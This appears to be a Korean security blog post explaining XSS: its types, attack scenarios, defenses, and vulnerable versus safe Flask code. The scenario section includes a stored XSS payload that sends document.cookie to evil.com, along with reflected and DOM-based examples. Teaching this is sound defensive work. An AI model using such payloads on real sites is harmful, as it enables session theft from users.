 ```yaml
---
layout: post
title:  XSS 취약점
date:   2025-06-19
category: security
image: assets/img/blog/blog11.jpg
author: 최진혁
tags: xss, web-security
---
```


### XSS란 무엇일까요?

* **정의:** XSS(Cross-Site Scripting)는 웹 페이지에 사용자가 입력한 내용을 필터링 없이 그대로 출력할 때, 공격자가 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되도록 하는 취약점입니다.
* **영향:**  
    * **쿠키·세션 탈취:** `document.cookie` 등을 통해 인증 정보가 외부로 전송될 수 있습니다.  
    * **피싱·UI 변조:** 페이지 내용을 조작해 가짜 로그인 폼이나 입력창을 띄울 수 있습니다.  
    * **권한 상승:** 악성 스크립트를 통해 관리자 기능을 탈취하거나 실행할 수 있습니다.

---

## 2. XSS의 유형

1. **Stored XSS (영구형):**  
   공격 코드를 데이터베이스, 게시판, 댓글 등에 저장해 다른 사용자가 접근할 때마다 실행되도록 함.  
2. **Reflected XSS (반사형):**  
   URL 파라미터나 폼 입력값에 공격 코드를 넣으면 즉시 응답 페이지에 반영되어 실행됨.  
3. **DOM-Based XSS:**  
   클라이언트 측 자바스크립트에서 `innerHTML`, `document.write` 등을 통해 동적으로 삽입 시 발생.

---

## 3. 공격 시나리오

- **Stored XSS 예시:**  
  게시판에 `<script>new Image().src="https://evil.com/steal?c="+encodeURIComponent(document.cookie)</script>` 를 남기면, 모든 방문자가 쿠키를 탈취당함.
- **Reflected XSS 예시:**  
  `https://victim.com/search?q=<script>alert('XSS')</script>` 링크를 열 때마다 스크립트가 즉시 실행됨.
- **DOM-Based XSS 예시:**  
  `document.getElementById('output').innerHTML = location.hash.substring(1);` 코드가 `<div id="output">`에 해시값을 그대로 출력.

---

## 4. 방어 방법

1. **출력 시 이스케이프 처리**  
   모든 사용자 입력값을 HTML 특수문자로 변환(`&lt;`, `&gt;`, `&quot;`, `&#x27;` 등).
2. **Content Security Policy (CSP) 적용**  
   인라인 스크립트나 외부 스크립트 로딩을 엄격히 제한.
3. **HTTPOnly & Secure 쿠키**  
   `document.cookie` 접근을 차단하고 HTTPS 전송만 허용.
4. **라이브러리 활용**  
   React/Vue 같은 프레임워크의 자동 이스케이프 기능 또는 OWASP ESAPI 사용.

---

## 5. 예시 코드 (Flask + Jinja2)

```python
# 취약한 코드: 필터링 없이 바로 출력
@app.route('/search')
def search():
    query = request.args.get('q')
    return f"<h1>검색 결과: {query}</h1>"

# 안전한 코드: Jinja2 자동 이스케이프 활용
@app.route('/search-safe')
def search_safe():
    query = request.args.get('q')
    return render_template('search.html', query=query)
```

```html
<!-- templates/search.html -->
<!DOCTYPE html>
<html>
  <head><meta charset="utf-8"><title>검색</title></head>
  <body>
    <h1>검색 결과: {{ query }}</h1>
  </body>
</html>
```

---

XSS는 단순하지만 가장 흔하게 발견되는 취약점 중 하나입니다.  
작은 실수 한 번이 큰 보안 사고로 이어질 수 있으니, 언제나 입력값을 믿지 말고 “출력 시 반드시 이스케이프!”를 기억하세요.  
